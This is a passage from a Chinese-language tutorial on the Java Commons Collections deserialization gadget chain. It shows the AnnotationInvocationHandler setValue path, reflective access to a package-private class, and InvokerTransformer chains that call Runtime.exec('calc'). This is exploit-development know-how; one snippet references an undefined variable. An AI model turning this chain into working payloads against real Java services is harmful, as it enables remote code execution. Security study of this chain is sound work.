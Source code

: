 ```java
                      value instanceof ExceptionProxy)) {
                    memberValue.setValue(
                        new AnnotationTypeMismatchExceptionProxy(
                            value.getClass() + "[" + value + "]").setMember(
                                annotationType.members().get(name)));
                }
            }
        }
    }
```

关键点在于 **需要进入两个If  和 memberValue.setValue**：

```java
memberValue.setValue(
    new AnnotationTypeMismatchExceptionProxy(
        value.getClass() + "[" + value + "]").setMember(
            annotationType.members().get(name)));
```

因此我们需要控制 memberValue ，途径恰好在 AnnotationInvocationHandler类 的构造函数

此外AnnotationInvocationHandler类 的作用域为 default（**并不是使用default关键字，而是省略访问控制符**）

default权限是**只能类内部和同一个包访问**，所以我们外部包调用它时需要引入**反射**

（详情代码 **参照[理想情况下.java]**）

---

### 理性情况下需要解决的两个问题：

- `Runtime` 对象不可序列化，需要通过反射将其变成可以序列化的形式。

- `sun.reflect.annotation.AnnotationInvocationHandler.readObject()中的setValue()` 的传参，是需要传 `Runtime` 对象的且要进入两个 if 判断

  

#### 1.第一个问题的两种写法

(本质一样，但第二种写法减少代码复用)：

即将 （详情代码 **参照[理想情况下.java]**）

```java
InvokerTransformer invokerTransformer = new InvokerTransformer("exec"  
 , new Class[]{String.class}, new Object[]{"calc"});
```

改写成以下两种格式之一：

1-1.

```java
// 对应 Method runtimeMethod = r.getMethod("getRuntime");
        Class c = Runtime.class;
        Method runtimeMethod = (Method) new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class}, new Object[]{"getRuntime",null}).transform(c);

// 对应 Runtime runtime = (Runtime) runtimeMethod.invoke(null,null);
Runtime runtime1 = (Runtime) new InvokerTransformer("invoke",new Class[]{Object.class, Object[].class}, new Object[]{null,null}).transform(runtimeMethod);

// 执行calc
runtimeClass1.getMethod("exec", String.class).invoke(runtime1,"calc");
```
